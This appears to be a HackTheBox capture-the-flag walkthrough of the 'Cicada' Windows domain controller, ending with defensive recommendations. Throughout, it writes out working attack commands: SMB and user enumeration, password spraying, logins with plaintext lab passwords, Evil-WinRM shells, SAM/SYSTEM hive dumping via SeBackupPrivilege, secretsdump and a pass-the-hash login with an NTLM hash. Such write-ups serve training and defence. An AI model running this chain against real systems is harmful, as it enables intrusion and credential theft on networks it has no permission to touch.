# Cicada HackTheBox Walkthrough

This professional report covers the full compromise of the **Cicada Active Directory environment**, showcasing enumeration, lateral movement, and privilege escalation steps. Each phase demonstrates the attacker’s progression from initial discovery to domain administrator access.

---

## 1. Initial Reconnaissance

We begin with comprehensive network scanning to identify open ports, services, and potential entry points on the target machine `10.129.231.149`.

```bash
nmap -p- -Pn 10.129.231.149 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.149 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.149 -v --script vuln -oN nmap_vuln.txt
```



The scan identified open **SMB (445)** and **LDAP** ports, confirming the host as a **Windows domain controller**.

---

## 2. SMB Enumeration

We performed initial SMB enumeration to identify accessible network shares:

```bash
smbclient -L 10.129.231.149
```



Among the discovered shares were **HR**, **DEV**, and **SYSVOL**. Accessing the **HR** share anonymously revealed internal files.

```bash
smbclient -N \\10.129.231.149\HR
```



A notice within the share exposed **default password policy information**, providing a pattern that could be weaponized for password spraying.



---

## 3. User Enumeration & Password Spraying

We enumerated user accounts using Impacket’s `lookupsid.py`:

```bash
lookupsid.py anonymous@10.129.231.149
```



The extracted usernames were saved into a list and used for a password spray attack leveraging `netexec`:

```bash
netexec smb 10.129.231.149 -u user.txt -p password.txt
```


This successfully uncovered valid credentials for **michael.wrightson**.

---

## 4. Active Directory Enumeration

Authenticated enumeration using **Michael’s** credentials was conducted to gather domain configuration data and additional accounts.

```bash
enum4linux -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -A CICADA-DC.cicada.htb
```



The scan revealed **David’s credentials**, enabling further lateral movement within the network.

---

## 5. Lateral Movement: Accessing Development Share

Using David’s credentials, we accessed the **DEV** share to search for sensitive files or scripts.

```bash
smbclient -U david.orelious -p 'aRt$Lp#7t*VQ!3' \\10.129.231.149\DEV
```



A PowerShell script located in this share contained **hardcoded plaintext credentials**, exposing another user account — **emily.oscars**.



---

## 6. Remote Access via Evil-WinRM

We used **Evil-WinRM** with Emily’s credentials to gain shell access:

```bash
evil-winrm -i 10.129.231.149 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```



We successfully accessed Emily’s desktop and obtained the **user flag**.

---

## 7. Privilege Escalation: SeBackupPrivilege Abuse

Privilege inspection revealed **SeBackupPrivilege** was enabled for Emily:

```bash
whoami /all
```



Using this privilege, we dumped the SAM and SYSTEM registry hives:

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```



These files were then downloaded for local analysis:

```bash
download sam.hive
download system.hive
```

We extracted hashes using **Impacket’s secretsdump**:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```



---

## 8. Administrator Access via Pass-the-Hash

Armed with the Administrator’s NTLM hash, we executed a **pass-the-hash** login using Evil-WinRM:

```bash
evil-winrm -i 10.129.231.149 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```



Access was granted, and we confirmed full **Administrator privileges**. The **root flag** was retrieved from the Administrator’s desktop.


---

## 9. Conclusion

This operation demonstrates a **complete domain compromise** starting from anonymous SMB enumeration to domain administrator privilege escalation.

### Summary of Exploitation Chain
1. Anonymous SMB access exposed a default password template.  
2. Password spraying led to initial credentials for a valid domain user.  
3. Hardcoded credentials in scripts facilitated lateral movement.  
4. Abuse of SeBackupPrivilege enabled dumping of registry hives.  
5. Pass-the-hash provided direct administrator access.

### Security Recommendations
- Disable anonymous SMB enumeration and enforce authenticated access.  
- Apply strong password complexity and account lockout policies.  
- Remove unnecessary privileges like SeBackupPrivilege from non-admin accounts.  
- Encrypt credentials and remove plaintext passwords from scripts.  
- Conduct regular Active Directory security audits and credential hygiene reviews.

---
